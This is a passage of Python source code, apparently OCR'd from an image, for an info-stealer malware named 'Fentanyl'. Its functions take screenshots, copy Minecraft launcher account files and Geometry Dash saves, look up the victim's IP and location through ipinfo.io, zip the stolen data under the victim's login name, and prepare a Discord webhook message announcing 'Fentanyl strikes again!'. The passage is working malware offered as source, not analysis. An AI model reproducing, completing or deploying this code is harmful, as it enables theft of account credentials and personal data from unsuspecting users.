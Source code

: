             include_layered_windows=False, 
            all_screens=True, 
            xdisplay=None
        )
        image.save(self.tempfolder + "\\Screenshot.png")
        image.close()

    def grabMinecraftCache(self):
        if not os.path.exists(os.path.join(self.roaming, '.minecraft')): return
        minecraft = os.path.join(self.tempfolder, 'Minecraft Cache')
        os.makedirs(minecraft, exist_ok=True)
        mc = os.path.join(self.roaming, '.minecraft')
        to_grab = ['launcher_accounts.json', 'launcher_profiles.json', 'usercache.json', 'launcher_log.txt']

        for _file in to_grab:
            if os.path.exists(os.path.join(mc, _file)):
                shutil.copy2(os.path.join(mc, _file), minecraft + os.sep + _file)
    def grabGDSave(self):
        if not os.path.exists(os.path.join(self.appdata, 'GeometryDash')): return
        gd = os.path.join(self.tempfolder, 'Geometry Dash Save')
        os.makedirs(gd, exist_ok=True)
        gdf = os.path.join(self.appdata, 'GeometryDash')
        to_grab = ['CCGameManager.dat']

        for _file in to_grab:
            if os.path.exists(os.path.join(gdf, _file)):
                shutil.copy2(os.path.join(gdf, _file), gd + os.sep + _file)
    def SendInfo(self):
        wname = self.getProductValues()[0]
        wkey = self.getProductValues()[1]
        ip = country = city = region = googlemap = "None"
        try:
            data = requests.get("https://ipinfo.io/json").json()
            ip = data['ip']
            city = data['city']
            country = data['country']
            region = data['region']
            googlemap = "https://www.google.com/maps/search/google+map++" + data['loc']
        except Exception: self.exceptions.append(traceback.format_exc())
        _zipfile = os.path.join(self.tempfolder, f'Fentanyl-{os.getlogin()}.zip')
        zipped_file = zipfile.ZipFile(_zipfile, "w", zipfile.ZIP_DEFLATED)
        abs_src = os.path.abspath(self.tempfolder)
        for dirname, _, files in os.walk(self.tempfolder):
            for filename in files:
                if filename == f'Fentanyl-{os.getlogin()}.zip': continue
                absname = os.path.abspath(os.path.join(dirname, filename))
                arcname = absname[len(abs_src) + 1:]
                zipped_file.write(absname, arcname)
        zipped_file.close()
        self.files, self.fileCount = self.gen_tree(self.tempfolder)
        self.fileCount =  f"{self.fileCount} File{'s' if self.fileCount != 1 else ''} Found: "
        embed = {
            "username": f"{os.getlogin()} | Fentanyl",
            "content": "@everyone",
            "avatar_url":"https://cdn.discordapp.com/attachments/976805447266877471/987826721250238464/c33cd7baf5e2abdf434c2793988ccb56.png",
            "embeds": [
                {
                    "author": {
                        "name": "Fentanyl strikes again!",
                        "url": "https://youareanidiot.cc",
                        "icon_url": "https://cdn.discordapp.com/attachments/976805447266877471/987826721250238464/c33cd7baf5e2abdf434c2793988ccb56.png"
                    },